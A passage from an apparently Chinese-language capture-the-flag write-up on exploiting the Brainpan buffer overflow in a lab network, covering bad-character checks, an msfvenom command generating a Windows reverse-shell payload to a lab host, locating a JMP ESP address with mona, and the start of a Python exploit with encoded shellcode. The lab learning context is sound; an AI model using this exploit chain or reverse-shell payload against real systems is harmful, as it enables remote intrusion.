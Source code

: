 ```
print data
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-04/7.PNG)

右上角寄存器面板，看到EDX寄存器的值为“AAAAAAAAAAAAAAAA..."，于是选中EDX，右键 follow in dump，左下角翻到A字符串的结尾。

查看发送的字符，从01开头，ff结尾，没有找到坏字符。一般来说\x00是坏字符，忘记加到字符里检查了，下次注意。

## 生成shellcode
`nmap -O 192.168.67.130`

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-04/8.PNG)

这里有一点迷茫，因为IP为192.168.67.130的目标主机，看起来是个linux主机，但是运行的程序brainpan.exe却是一个windows 32的应用程序。

所以到底该生成linux的shellcode，还是windows的shellcode?

不管了，先生成windows的shellcode，在本地192.168.67.1的windows主机尝试是否能反弹shell吧。

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.67.128 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c

生成了shellcode，注意去除坏字符\x00
```
## 找到JMP ESP
JMP ESP 是跳转到栈顶寄存器的汇编指令。
因为栈顶的内存地址是动态的，而程序的JMP ESP指令是相对固定的。
可以利用该指令来跳转到栈顶的位置。这可以方便我们定位内存地址，利于exp的编写。

```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

JMP ESP

将汇编指令转换为十六进制的\xff\xe4
```
immunity debugger
```
!mona modules

!mona find -s "\xff\xe4" -m brainpan.exe

找到jmp esp指令的具体地址0x311712f3
```
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-04/9.PNG)

## d5.py
将上述得到的信息结合起来，EIP跳转地址——栈顶`0x311712f3`，栈长度524，没有坏字符的shellcode。
```
#!/usr/bin/python
import socket
from struct import pack

host = "192.168.67.1"  #有bof漏洞的目标主机IP

shellcode ="\xba\x83\x2c\x49\xdd\xdb\xd8\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
shellcode +="\x52\x83\xc6\x04\x31\x56\x0e\x03\xd5\x22\xab\x28\x25\xd2\xa9"
shellcode +="\xd3\xd5\x23\xce\x5a\x30\x12\xce\x39\x31\x05\xfe\x4a\x17\xaa"
shellcode +="\x75\x1e\x83\x39\xfb\xb7\xa4\x8a\xb6\xe1\x8b\x0b\xea\xd2\x8a"
shellcode +="\x8f\xf1\x06\x6c\xb1\x39\x5b\x6d\xf6\x24\x96\x3f\xaf\x23\x05"
```